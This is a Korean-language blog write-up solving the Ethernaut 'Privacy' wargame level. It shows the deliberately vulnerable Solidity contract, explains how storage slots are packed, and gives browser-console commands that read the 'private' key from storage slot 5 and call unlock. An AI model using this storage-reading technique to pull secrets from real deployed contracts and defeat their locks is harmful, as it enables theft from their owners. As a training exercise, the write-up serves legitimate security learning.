 ```yaml
---
emoji: 🧢
title: (Ethernaut 취약점 12) Privacy
date: '2022-01-14 16:24:00'
author: 한성원
tags: ethernaut Privacy vulnerability
categories: 취약점분석
---
```



# 👋 Privacy
__Difficulty 8/10__

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

- - -

## 승리 조건
- contract를 unlock 하기!
- 즉 변수 locked를 false로 만들기
- - -

## 코드 분석
분석은 주석에!

```solidity
contract Privacy {
    
    bool public locked = true; // slot 0
    uint256 public ID = block.timestamp; // slot 1
    uint8 private flattening = 10; // slot 2
    uint8 private denomination = 255; // slot 2
    uint16 private awkwardness = uint16(now); // slot 2
    bytes32[3] private data; // slot 3,4,5

    //constructor: set data
    constructor(bytes32[3] memory _data) public {
        data = _data;
    }
    
    // key를 가지고 unlock 할 수 있는 function 
    function unlock(bytes16 _key) public {
        // _key와 bytes16(data[2])의 값이 같은지 확인한다.
        require(_key == bytes16(data[2]));
        // unlock 한다.
        locked = false;
    }

    /*
        A bunch of super advanced solidity algorithms...

        ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
        .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
        *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
        `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
        ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
    */
}

```
- - -


## 풀이
이 문제에서 우리의 목표는 Privacy contract를 locked 변수를 false로 만드는 것이다. 

[Ethernaut 8 Vault](https://holyhansss.github.io/ethernaut/8_vault_ethernaut/8_vault_ethernaut/)와 비슷하다고 생각한다.

이 문제를 풀기전에 우리가 알아야 하는 것들이 있다.
- Storage
- casting
에 대해서 확실하게 알아야 한다.
Vault에서도 설명했지만 한번 더 storage에 대해서 설명하겠다. 
EVM의 Storage는 2^256개의 메모리 슬롯을 가지고 있다. 그리고 각 slot은 32 bytes( = 256 bits)의 크기이다. 하나의 slot에 여러가지 변수를 저정할 수 있다. 하지만 변수 선언 순서에 따라 slot 할당이 달라지니 유의하자! 아래의 예시처럼 uint8, uint256, uint8은 3개를 차지하지만 uint8, uint8, uint256은 슬롯 2개 밖에 차지하지 않는다.  Gas optimization을 위해서는 우리가 꼭 알고 있어야할 내용이다!
```solidity
uint8 a // slot 0
uint256 b // slot 1
uint8 c // slot 2
```
```solidity
uint8 a // slot 0
uint8 b // slot 0
uint256 c // slot 1
```
[이 글](https://medium.com/coinmonks/solidity-variables-storage-type-conversions-and-accessing-private-variables-c59b4484c183)에 설명이 잘 되어있으니 한번 확인해 보자! 이 글에서는 casting에 대해서도 다루고 있으니 꼭 보고 오는 것을 추천한다.

우리는 이 문제를 풀기 위해 web3.eth.getStorageAt() method를 사용한다. web3.eth.getStorageAt를 통해 우리는 lowlevel에서 storage data를 불러올 수 있다.

우선 console 창에서 실행시킨다
ctrl + shift + i를 눌러 console창을 활성화 시키자
```javascript
// locked가 true로 lock된 것을 알 수 있다.
await contract.locked()

// 코드 분석에서 봤듯이 data[2]는 5 번째 slot에 저장되어있다.
await web3.eth.getStorageAt(instance, 5) // 0x3aa30e05517b3f1490c335bb41be74713b0568225baaad3b56642e103a3b4335

// 우리는 16bytes 만 필요하기 때문에 반을 뚝 잘라 앞부분만 사용한다.
await contract.unlock("0x3aa30e05517b3f1490c335bb41be7471")

// locked가 false로 바뀐 것을 확인 할 수 있다.
await contract.locked()
```
이후 Submit instance를 누르고 조금 기다리면 block이 mine되고, 아래와 같이 뜨며 마무리된다.
```
٩(- ̮̮̃-̃)۶ Well done, You have completed this level!!!
```

- - -

## 마무리
블록체인상의 정보는 모두에게 공개된다. 모든 사람이 storage를 쉽게 확인 할 수 있기 때문이다. 민감한 정보들은 블록체인에 올리지 않는 것이 좋다. 또한 변수 선언 순서에 따라 때로는 더 많은 비용를 지불해야 할 수도 있기 때문에 코드를 적을때 항상 최적화에 대해 생각하며 하자!! 


- - -
## 기타 정보
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/
- remix IDE: https://remix.ethereum.org
- Ethernaut 8 Vault: https://holyhansss.github.io/ethernaut/8_vault_ethernaut/8_vault_ethernaut/
- Storage & Casting: https://medium.com/coinmonks/solidity-variables-storage-type-conversions-and-accessing-private-variables-c59b4484c183
- Privacy 취약점: https://holyhansss.github.io/vulnerability/private_variable/private_variable/
```toc

```